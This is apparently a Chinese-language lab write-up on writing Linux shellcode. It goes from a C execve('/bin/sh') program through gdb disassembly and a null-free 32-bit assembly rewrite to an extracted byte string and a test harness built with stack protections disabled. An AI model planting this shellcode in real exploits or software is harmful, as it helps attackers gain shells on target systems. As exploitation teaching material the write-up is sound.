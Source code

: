 # <center>shellcode编写实验</center>

## 实验概述

### 【目的】
编写Linux环境下的shellcode。
### 【环境】
Linux
### 【工具】
gdb
### 【原理】
shellcode是一段机器指令，用于在溢出之后改变系统的正常流程，转而执行shellcode从而入侵目标系统。
shellcode基本的编写方式：
- 编写c程序实现功能
- 使用汇编来替代函数调用等
- 汇编编译链接，获取机器码
## 实验步骤

### 【步骤】
这里使用c语言来进行编写。
```
#include<stdio.h>
int main()
{
    char *name[2];
    name[0]="/bin/sh";
    name[1]=NULL;
    execve(name[0],name,NULL);
}
```
其中execve进行系统调用，通过name[0]提供的参数"/bin/sh"起一个shell。
execve（参数1，参数2，参数3）
参数1：命令所在路径
参数2：命令的集合
参数3：传递给执行文件的环境变量集
 
尝试编译运行。
```
$ gcc shell.c -o shell
$ ./shell
$ echo u got it
u got it
```
用gdb查看
```
$ gdb shell -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from shell...(no debugging symbols found)...done.
pwndbg> disass main
Dump of assembler code for function main:
   0x0000000000400596 <+0>:	push   rbp
   0x0000000000400597 <+1>:	mov    rbp,rsp
   0x000000000040059a <+4>:	sub    rsp,0x20
   0x000000000040059e <+8>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004005a7 <+17>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004005ab <+21>:	xor    eax,eax
   0x00000000004005ad <+23>:	mov    QWORD PTR [rbp-0x20],0x400674
   0x00000000004005b5 <+31>:	mov    QWORD PTR [rbp-0x18],0x0
   0x00000000004005bd <+39>:	mov    rax,QWORD PTR [rbp-0x20]
   0x00000000004005c1 <+43>:	lea    rcx,[rbp-0x20]
   0x00000000004005c5 <+47>:	mov    edx,0x0
   0x00000000004005ca <+52>:	mov    rsi,rcx
   0x00000000004005cd <+55>:	mov    rdi,rax
   0x00000000004005d0 <+58>:	call   0x400480 <execve@plt>
   0x00000000004005d5 <+63>:	mov    eax,0x0
   0x00000000004005da <+68>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004005de <+72>:	xor    rdx,QWORD PTR fs:0x28
   0x00000000004005e7 <+81>:	je     0x4005ee <main+88>
   0x00000000004005e9 <+83>:	call   0x400460 <__stack_chk_fail@plt>
   0x00000000004005ee <+88>:	leave  
   0x00000000004005ef <+89>:	ret    
End of assembler dump.
pwndbg> 
```
其中关键点在
```
0x00000000004005c5 <+47>:	mov    edx,0x0
0x00000000004005ca <+52>:	mov    rsi,rcx
0x00000000004005cd <+55>:	mov    rdi,rax
0x00000000004005d0 <+58>:	call   0x400480 <execve@plt>
```
传递了三个参数并且call execve()。
直接使用这四条指令显然是不行的，shellcode需要能够独立运行并且尽量短小，这里的`call   0x400480 <execve@plt>`依赖plt表，前面的参数传递也依赖程序的数据段等，我们需要用汇编来重写这里的代码。
对于`call   0x400480 <execve@plt>`，我们可以用系统调用来重写，execve的调用号为：0xb，那么就有
```
mov al,0xb
int 0x80
```
这里的0x80是根据al的值进行系统调用。
为了传参方便，这里采用32位汇编的写法，把参数push到栈上就可以传递参数了。
先将"/bin/sh"压栈
```
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
```
注意这里用xor eax,eax把eax置0，不使用`mov eax,0`的原因是这样会出现`\x00`，shellcode会被gets()这类函数截断。
esp指向当前栈顶，此时即指向"/bin/sh",我们把esp保存到ebx
```
mov ebx,esp    
```
现在把两个参数压栈，eax为NULL(0)，ebx为"/bin/sh"的地址
```
push eax
push ebx
```
此时esp指向数组argv，把它赋值给ecx。
```
mov ecx,esp
xor edx,edx
mov al,0xb  
int 0x80       ;通过中断0x80进行系统调用
```
所以有完整的代码：
```
section .text
global _start
 
_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
使用nasm编译，链接，运行
```
$ ld -o shell shell.o
$ ld -m elf_i386 -o shell shell.o
$ ./shell
$ echo u got it
u got it
```
成功了，使用objdump提取
```
$ objdump -d shell

shell:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	31 c0                	xor    %eax,%eax
 8048062:	50                   	push   %eax
 8048063:	68 2f 2f 73 68       	push   $0x68732f2f
 8048068:	68 2f 62 69 6e       	push   $0x6e69622f
 804806d:	89 e3                	mov    %esp,%ebx
 804806f:	50                   	push   %eax
 8048070:	53                   	push   %ebx
 8048071:	89 e1                	mov    %esp,%ecx
 8048073:	31 d2                	xor    %edx,%edx
 8048075:	b0 0b                	mov    $0xb,%al
 8048077:	cd 80                	int    $0x80

```
这样就提取到了,下面可以写个c程序验证一下。
```
#include <stdio.h>
 
char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
 
int main()
{
    void (*fp) (void);
    fp=(void *)shellcode;
    fp();
}
```
```
$ gcc auth.c -fno-stack-protector -o auth -z execstack -m32
$ ./auht
$ echo u got it
u got it

```
### 【总结】

本次实验主要练习了linux下shellcode的编写。
